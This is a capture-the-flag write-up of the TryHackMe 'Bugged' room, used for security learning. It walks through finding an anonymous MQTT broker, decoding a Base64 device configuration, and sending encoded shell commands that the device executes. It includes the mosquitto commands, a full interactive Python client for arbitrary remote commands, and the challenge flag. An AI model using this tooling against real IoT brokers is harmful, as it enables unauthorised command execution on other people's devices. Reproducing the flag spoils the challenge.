

# Bugged Write-up

## Bugged Write-up

### Challenge information

* **Platform:** TryHackMe
* **Room:** Bugged
* **Room URL:** [https://tryhackme.com/room/bugged](https://tryhackme.com/room/bugged)
* **Target:** `10.113.140.34`
* **Scope:** Authorized TryHackMe lab environment

### Overview

Bugged is an MQTT-focused challenge. Reconnaissance exposed SSH and an MQTT broker. Anonymous MQTT subscription then revealed smart-device telemetry and a Base64-encoded configuration message.

Decoding that message exposed a device identifier, supported commands, and separate request and response topics. Publishing Base64-encoded command messages to the device's command topic produced command output on its response topic. Reading `flag.txt` returned the challenge flag.

### Table of contents

* [Tools used](bugged-write-up.md#tools-used)
* [Initial reconnaissance](bugged-write-up.md#initial-reconnaissance)
* [MQTT enumeration](bugged-write-up.md#mqtt-enumeration)
* [Configuration decoding](bugged-write-up.md#configuration-decoding)
* [Command-channel interaction](bugged-write-up.md#command-channel-interaction)
* [Custom MQTT client](bugged-write-up.md#custom-mqtt-client)
* [Flag retrieval](bugged-write-up.md#flag-retrieval)
* [Attack chain](bugged-write-up.md#attack-chain)
* [Vulnerability analysis](bugged-write-up.md#vulnerability-analysis)
* [Defensive recommendations](bugged-write-up.md#defensive-recommendations)
* [Evidence integrity and limitations](bugged-write-up.md#evidence-integrity-and-limitations)
* [Final summary](bugged-write-up.md#final-summary)

### Tools used

* RustScan
* Nmap
* Mosquitto clients
* Base64
* Python
* Paho MQTT

### Initial reconnaissance

RustScan identified two open TCP ports and launched an Nmap scan:

```bash
rustscan -a 10.113.140.34
```

Relevant output:

```
Open 10.113.140.34:22
Open 10.113.140.34:1883

PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack ttl 62
1883/tcp open  mqtt    syn-ack ttl 61
```

SSH on TCP/22 provides a possible remote-administration path. MQTT on TCP/1883 became the immediate focus because it is a publish-subscribe protocol often used for IoT telemetry and device control.

RustScan also warned that the local file limit was lower than its default batch size. That warning affects scan speed and resource use. It does not alter the observed open-port result.

### MQTT enumeration

MQTT clients publish messages to named topics. Subscribers receive messages from topics they are permitted to access. The `#` wildcard subscribes to every accessible topic below the broker's topic hierarchy.

The MQTT publish-subscribe model was reviewed using [Cedalo's Mosquitto publish and subscribe guide](https://www.cedalo.com/blog/mqtt-subscribe-publish-mosquitto-pub-sub-example).

The broker was monitored with:

```bash
mosquitto_sub -h 10.113.140.34 -t "#" -v
```

* `-h` selects the broker host.
* `-t "#"` subscribes to all accessible topics.
* `-v` prints each topic alongside its message.

Observed messages included smart-device telemetry:

```
livingroom/speaker {"id":11072581869255631885,"gain":75}
storage/thermostat {"id":5752657611924051632,"temperature":23.953163}
patio/lights {"id":17795809970683467573,"color":"GREEN","status":"ON"}
kitchen/toaster {"id":18111977337208864513,"in_use":false,"temperature":153.97867,"toast_time":355}
frontdeck/camera {"id":10734610730184262916,"yaxis":63.71649,"xaxis":136.0597,"zoom":0.06650866,"movement":false}
```

A separate configuration topic exposed an encoded payload:

```
yR3gPp0r8Y/AGlaMxmHJe/qV66JF5qmH/config eyJpZCI6ImNkZDFiMWMwLTFjNDAtNGIwZi04ZTIyLTYxYjM1NzU0OGI3ZCIsInJlZ2lzdGVyZWRfY29tbWFuZHMiOlsiSEVMUCIsIkNNRCIsIlNZUyJdLCJwdWJfdG9waWMiOiJVNHZ5cU5sUXRmLzB2b3ptYVp5TFQvMTVIOVRGNkNIZy9wdWIiLCJzdWJfdG9waWMiOiJYRDJyZlI5QmV6L0dxTXBSU0VvYmgvVHZMUWVoTWcwRS9zdWIifQ==
```

The ability to subscribe without credentials is observed for the accessible topics. It demonstrates insufficient authorization for this lab broker's exposed telemetry and configuration channel.

### Configuration decoding

The configuration value was Base64-decoded:

```bash
echo -n 'eyJpZCI6ImNkZDFiMWMwLTFjNDAtNGIwZi04ZTIyLTYxYjM1NzU0OGI3ZCIsInJlZ2lzdGVyZWRfY29tbWFuZHMiOlsiSEVMUCIsIkNNRCIsIlNZUyJdLCJwdWJfdG9waWMiOiJVNHZ5cU5sUXRmLzB2b3ptYVp5TFQvMTVIOVRGNkNIZy9wdWIiLCJzdWJfdG9waWMiOiJYRDJyZlI5QmV6L0dxTXBSU0VvYmgvVHZMUWVoTWcwRS9zdWIifQ==' | base64 -d
```

Decoded output:

```json
{
  "id": "cdd1b1c0-1c40-4b0f-8e22-61b357548b7d",
  "registered_commands": ["HELP", "CMD", "SYS"],
  "pub_topic": "U4vyqNlQtf/0vozmaZyLT/15H9TF6CHg/pub",
  "sub_topic": "XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub"
}
```

Base64 is an encoding format, not encryption. Anyone who receives this payload can decode it without a secret key. The configuration revealed the device ID, a command interface, and two opaque MQTT topic names.

The topic labels describe the device's own publish and subscribe behavior. In the observed interaction, the client published requests to `sub_topic`, which the device consumed, and listened on `pub_topic` for device responses.

### Command-channel interaction

A command message was constructed as JSON, encoded in Base64, and published to the device command topic. The first request asked the device to list files:

```bash
mosquitto_pub -h 10.113.140.34 -t XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub -m 'eyJpZCI6ICJjZGQxYjFjMC0xYzQwLTRiMGYtOGUyMi02MWIzNTc1NDhiN2QiLCAiY21kIjogIkNNRCIsICJhcmciOiAibHMifQ=='
```

The message decodes to the following request:

```json
{
  "id": "cdd1b1c0-1c40-4b0f-8e22-61b357548b7d",
  "cmd": "CMD",
  "arg": "ls"
}
```

The response arrived on the decoded `pub_topic`:

```
U4vyqNlQtf/0vozmaZyLT/15H9TF6CHg/pub eyJpZCI6ImNkZDFiMWMwLTFjNDAtNGIwZi04ZTIyLTYxYjM1NzU0OGI3ZCIsInJlc3BvbnNlIjoiZmxhZy50eHRcbiJ9
```

Decoded response:

```json
{
  "id": "cdd1b1c0-1c40-4b0f-8e22-61b357548b7d",
  "response": "flag.txt\n"
}
```

The `CMD` interface therefore executed `ls` and returned its output over MQTT. This is direct evidence of a remote command-execution channel exposed through the broker.

### Custom MQTT client

A custom interactive Python client was written to practice MQTT automation. It uses Paho MQTT and implements the same observed request-response protocol.

The client:

* Connects to the MQTT broker on TCP/1883.
* Subscribes to the configured response topic.
* Serializes `id`, `cmd`, and `arg` into JSON.
* Base64-encodes and publishes the request to the command topic.
* Decodes Base64 and JSON responses.
* Matches responses to the expected device ID.
* Waits for a response with a configurable timeout.

The supplied screenshot shows the custom client receiving the `flag.txt` directory-listing result and the flag response. It also shows the Base64 configuration decode in CyberChef.

The following source implements the client used during the lab:

```python
import argparse as _argparse
import base64 as _base64
import binascii as _binascii
import json as _json
import queue as _queue
import threading as _threading
import time as _time

import paho.mqtt.client as _mqtt


_RESET = "\033[0m"
_BOLD = "\033[1m"
_CYAN = "\033[96m"
_GREEN = "\033[92m"
_YELLOW = "\033[93m"
_RED = "\033[91m"
_GRAY = "\033[90m"

_ID = "cdd1b1c0-1c40-4b0f-8e22-61b357548b7d"

_CMD_TOPIC = "XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub"
_RESP_TOPIC = "U4vyqNlQtf/0vozmaZyLT/15H9TF6CHg/pub"

_responses = _queue.Queue()
_connected = _threading.Event()
_subscribed = _threading.Event()
_state = {"error": None}


def _banner():
    print(f"""
{_CYAN}{_BOLD}
    ╔══════════════════════════════════════╗
    ║           MQTT COMMAND CLIENT        ║
    ╚══════════════════════════════════════╝
{_RESET}{_GRAY}    Type a command to send it to the target.
    Type 'exit' or 'quit' to disconnect.
{_RESET}""")


def _payload_generator(_id, _method, _command):
    _data = {
        "id": _id,
        "cmd": _method,
        "arg": _command,
    }

    _json_bytes = _json.dumps(_data).encode("utf-8")
    return _base64.b64encode(_json_bytes).decode("ascii")


def _decode_response(_payload):
    _raw = _payload.decode("utf-8", errors="replace").strip()

    try:
        _decoded = _base64.b64decode(
            _raw,
            validate=True,
        ).decode("utf-8", errors="replace")
    except (_binascii.Error, ValueError):
        _decoded = _raw

    try:
        return _json.loads(_decoded)
    except _json.JSONDecodeError:
        return {"response": _decoded}


def _on_connect(_client, _userdata, _flags, _reason_code, _properties):
    if _reason_code.is_failure:
        _state["error"] = str(_reason_code)
        _connected.set()
        return

    _result, _mid = _client.subscribe(
        _args.response_topic
    )

    if _result != _mqtt.MQTT_ERR_SUCCESS:
        _state["error"] = "Failed to subscribe to response topic."

    _connected.set()


def _on_subscribe(
    _client,
    _userdata,
    _mid,
    _reason_code_list,
    _properties,
):
    if any(_code.is_failure for _code in _reason_code_list):
        _state["error"] = "Broker rejected the subscription."

    _subscribed.set()


def _on_message(_client, _userdata, _message):
    _responses.put(_decode_response(_message.payload))


def _print_response(_message):
    _response = (
        _message.get("response", _message)
        if isinstance(_message, dict)
        else _message
    )

    print(f"{_GREEN}{_BOLD}Response:{_RESET}")

    if isinstance(_response, (dict, list)):
        print(_json.dumps(_response, indent=2, ensure_ascii=False))
    else:
        print(str(_response).rstrip())


def _send_command(_client, _command):
    while not _responses.empty():
        try:
            _responses.get_nowait()
        except _queue.Empty:
            break

    _payload = _payload_generator(
        _args.id,
        "CMD",
        _command,
    )

    _info = _client.publish(
        _args.command_topic,
        _payload,
        qos=0,
    )

    if _info.rc != _mqtt.MQTT_ERR_SUCCESS:
        print(f"{_RED}[!] Failed to publish command.{_RESET}")
        return

    print(f"{_GRAY}[*] Waiting for response...{_RESET}")

    _deadline = _time.monotonic() + _args.timeout

    while True:
        _remaining = _deadline - _time.monotonic()

        if _remaining <= 0:
            print(f"{_YELLOW}[!] Response timeout.{_RESET}")
            return

        try:
            _message = _responses.get(timeout=_remaining)
        except _queue.Empty:
            print(f"{_YELLOW}[!] Response timeout.{_RESET}")
            return

        if isinstance(_message, dict):
            _response_id = _message.get("id")

            if _response_id not in (None, _args.id):
                continue

        _print_response(_message)
        return


def _main():
    global _args

    _parser = _argparse.ArgumentParser(
        description="Interactive MQTT command client."
    )

    _parser.add_argument(
        "--ip",
        default="10.113.140.34",
        help="MQTT broker IP address",
    )
    _parser.add_argument("--port", type=int, default=1883)
    _parser.add_argument("--id", default=_ID)
    _parser.add_argument(
        "--command-topic",
        default=_CMD_TOPIC,
    )
    _parser.add_argument(
        "--response-topic",
        default=_RESP_TOPIC,
    )
    _parser.add_argument(
        "--timeout",
        type=float,
        default=10.0,
        help="Response timeout in seconds",
    )

    _args = _parser.parse_args()

    _banner()

    _client = _mqtt.Client(
        callback_api_version=_mqtt.CallbackAPIVersion.VERSION2
    )

    _client.on_connect = _on_connect
    _client.on_subscribe = _on_subscribe
    _client.on_message = _on_message

    try:
        _client.connect(_args.ip, _args.port, keepalive=30)
        _client.loop_start()

        if not _connected.wait(timeout=8):
            raise TimeoutError("Connection timed out.")

        if _state["error"]:
            raise ConnectionError(_state["error"])

        if not _subscribed.wait(timeout=8):
            raise TimeoutError("Subscription timed out.")

        if _state["error"]:
            raise ConnectionError(_state["error"])

        print(f"{_GREEN}[+] Connected to {_args.ip}:{_args.port}{_RESET}")
        print(f"{_GRAY}[*] Command topic:  {_args.command_topic}")
        print(f"[*] Response topic: {_args.response_topic}{_RESET}\n")

        while True:
            try:
                _command = input(
                    f"{_BOLD}{_CYAN}mqtt> {_RESET}"
                ).strip()
            except (EOFError, KeyboardInterrupt):
                print()
                break

            if not _command:
                continue

            if _command.lower() in {"exit", "quit"}:
                break

            if _command.lower() == "clear":
                print("\033[2J\033[H", end="")
                _banner()
                continue

            _send_command(_client, _command)

    except (OSError, TimeoutError, ConnectionError) as _error:
        print(f"{_RED}[!] {_error}{_RESET}")

    finally:
        _client.disconnect()
        _client.loop_stop()
        print(f"\n{_GRAY}[*] Disconnected.{_RESET}")


if __name__ == "__main__":
    _main()
```

### Flag retrieval

A second command request read the discovered file:

```bash
mosquitto_pub -h 10.113.140.34 -t XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub -m 'eyJpZCI6ICJjZGQxYjFjMC0xYzQwLTRiMGYtOGUyMi02MWIzNTc1NDhiN2QiLCAiY21kIjogIkNNRCIsICJhcmciOiAiY2F0IGZsYWcudHh0In0='
```

The response message was Base64-decoded:

```bash
echo -n 'eyJpZCI6ImNkZDFiMWMwLTFjNDAtNGIwZi04ZTIyLTYxYjM1NzU0OGI3ZCIsInJlc3BvbnNlIjoiZmxhZ3sxOGQ0NGZjMDcwN2FjOGRjOGJlNDViYjgzZGI1NDAxM31cbiJ9' | base64 -d
```

Observed output:

```json
{
  "id": "cdd1b1c0-1c40-4b0f-8e22-61b357548b7d",
  "response": "flag{18d44fc0707ac8dc8be45bb83db54013}\n"
}
```

The observed flag is:

```
flag{18d44fc0707ac8dc8be45bb83db54013}
```

### Attack chain



### Vulnerability analysis

The challenge demonstrates a broken IoT command architecture:

1. The MQTT broker accepted unauthenticated access to sensitive topics.
2. A wildcard subscription exposed device telemetry and configuration data.
3. Base64 concealed, but did not protect, command topics and device metadata.
4. The exposed configuration described a `CMD` interface.
5. A publishable MQTT request caused command execution and returned the output.

The primary issue is not Base64 itself. The security failure is trusting unauthenticated broker clients with access to a device command channel.

### Defensive recommendations

* Require authenticated MQTT clients.
* Enforce per-client topic authorization with broker access-control lists.
* Separate telemetry, administration, and device-command topics.
* Do not expose command topics to broad or anonymous subscribers.
* Do not use Base64 as a confidentiality control.
* Avoid accepting arbitrary operating-system commands from MQTT messages.
* Use allowlisted device actions with strict schemas and validation.
* Encrypt MQTT traffic with TLS and monitor unexpected subscriptions or publishes.
* Rotate topic names and credentials after suspected exposure.

### Evidence integrity and limitations

* Commands and output are preserved from the supplied authorized lab session.
* RustScan and Nmap established only TCP/22 and TCP/1883 as open.
* The configuration and command payloads were decoded from observed Base64 data.
* The custom Python client is described from the supplied source and screenshot.
* No SSH access or additional host-level compromise was recorded.

### Final summary

Bugged exposed an MQTT broker that permitted access to device telemetry, configuration, and a remote command channel. A wildcard subscription revealed an encoded device configuration. Decoding it provided the device ID and the topics required to issue commands and receive results.

A Base64-encoded `CMD` request listed the target directory. A second request read `flag.txt`, returning `flag{18d44fc0707ac8dc8be45bb83db54013}`. The custom MQTT client then automated the same request-response workflow.
